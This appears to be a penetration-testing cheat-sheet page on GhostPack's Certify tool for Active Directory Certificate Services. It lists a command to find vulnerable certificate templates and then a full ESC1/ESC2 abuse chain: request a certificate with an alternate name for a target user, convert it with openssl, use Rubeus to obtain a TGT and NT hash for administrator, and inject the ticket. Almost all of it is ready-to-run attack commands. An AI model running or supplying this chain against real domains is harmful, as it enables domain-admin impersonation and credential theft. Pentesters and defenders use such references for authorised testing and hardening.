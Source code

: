```yaml
---
tags:
  - tool
  - active_directory
---
```

# Certify

[Certify](https://github.com/GhostPack/Certify) is a C# tool to enumerate and abuse misconfigurations in Active Directory Certificate Services (AD CS).

## Enumeration

```powershell
# Find vulnerable templates
.\Certify.exe find /vulnerable
```

## Abuse

### ESC1 & ESC2

```powershell
# Request template with alternate SAN
.\Certify.exe request /ca:$FQDN\$CA /template:$TEMPLATE /altname:$TARGET_USER@$DOMAIN

# Convert certificate from pem to pfx format
& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# Get TGT and NT hash for user from certificate
.\Rubeus.exe asktgt /user:administrator /certificate:cert.pfx /getcredentials /nowrap

# Sacrificial session
.\Rubeus.exe createnetonly /program:powershell.exe /show
.\Rubeus.exe ptt /ticket:$TICKET_BLOB
```
